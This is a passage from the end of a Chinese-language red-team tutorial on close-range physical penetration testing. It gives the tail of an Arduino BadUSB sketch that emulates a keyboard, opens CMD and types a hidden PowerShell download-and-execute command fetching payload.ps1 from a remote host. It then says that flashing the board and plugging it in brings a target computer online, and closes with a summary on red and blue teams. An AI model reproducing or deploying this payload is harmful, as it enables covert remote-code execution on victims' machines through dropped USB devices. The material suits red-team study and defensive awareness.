Keyboard.println("CMD");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(3000);
Keyboard.println("powershell -windowstyle hidden IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/payload.ps1') ");
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK); 
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯 
}
void loop() {}
```

8、将代码上传到开发板中，等待烧录完成即可，烧录成功之后，插入电脑即可上线

# [总结](#toc__16)

近源渗透相比普通的渗透测试可能成本更高，毕竟一个设备动不动就要一两百美刀，谁顶得住啊，但是如果能更好的掌握社工技巧会事半功倍，而且对于蓝队来说更是防不胜防，有可能自己在网络这块防得死死的，被现场的好队友捡到的 u 盘送走了，虽然设备费用贵，但贵有贵的道理，从另一个方面讲，以后的常规渗透测试肯定也会越来越多的结合近源渗透测试的一些手段和方法，这不仅仅是提高了红队的攻击能力，同时也是对蓝队防守能力在更高维度上提出了要求。
